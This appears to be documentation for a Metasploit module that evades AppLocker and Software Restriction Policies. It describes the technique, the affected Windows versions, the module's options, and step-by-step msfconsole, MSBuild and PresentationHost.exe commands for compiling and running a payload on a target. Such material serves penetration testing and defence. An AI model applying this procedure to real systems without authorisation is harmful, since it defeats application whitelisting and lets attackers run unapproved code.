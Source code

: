 ## Intro

This module is designed to evade solutions such as software restriction policies and Applocker.
Applocker in its default configuration will block code in the form of executables (.exe and .com, .msi), scripts (.ps1, .vbs, .js) and dll's from running in user controlled directories.
Applocker enforces this by employing whitelisting, in that code can only be run from the protected directories and sub directories of "Program Files" and "Windows"
The main vector for this bypass is to use the trusted binary PresentationHost.exe to execute user supplied code as this binary is located within the trusted Windows directory.

## Vulnerable Application

This evasion will work on all versions of Windows that include .NET versions 3.5 or greater that has solutions such as Applocker or Software Restriction Policies active, that do not explicitly block PresentationHost.exe.

## Options

- **FILE_ONE** - Filename for the evasive file (default: presentationhost.xaml.cs).
- **FILE_TWO** - Filename for the evasive file (default: presentationhost.manifest).
- **FILE_THREE** - Filename for the evasive file (default: presentationhost.csproj).

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use evasion/windows/applocker_evasion_presentationhost`
  3. Do: `set PAYLOAD <payload>` (note: only x86 payloads are supported by this module)
  4. Do: `run`
  5. The module will now display instructions of how to proceed
  6. `[+] presentationhost.xaml.cs stored at /root/.msf4/local/presentationhost.xaml.cs`
  7. `[+] presentationhost.manifest stored at /root/.msf4/local/presentationhost.manifest`
  8. `[+] presentationhost.csproj stored at /root/.msf4/local/presentationhost.csproj`
  9. `[*] Copy presentationhost.xaml.cs, presentationhost.manifest and presentationhost.csproj to the target`
  10. `[*] Compile using: C:\Windows\Microsoft.Net\Framework\[.NET Version]\MSBuild.exe presentationhost.csproj` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319").
  11. `[*] Execute using: C:\Windows\System32\PresentationHost.exe [Full Path To] presentationhost.xbap` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319") and replace [Full Path To] with the full path to the .xbap.

## References

https://medium.com/tsscyber/applocker-bypass-presentationhost-exe-8c87b2354cd4
https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/what-is-applocker
https://docs.microsoft.com/en-us/windows-server/identity/software-restriction-policies/software-restriction-policies
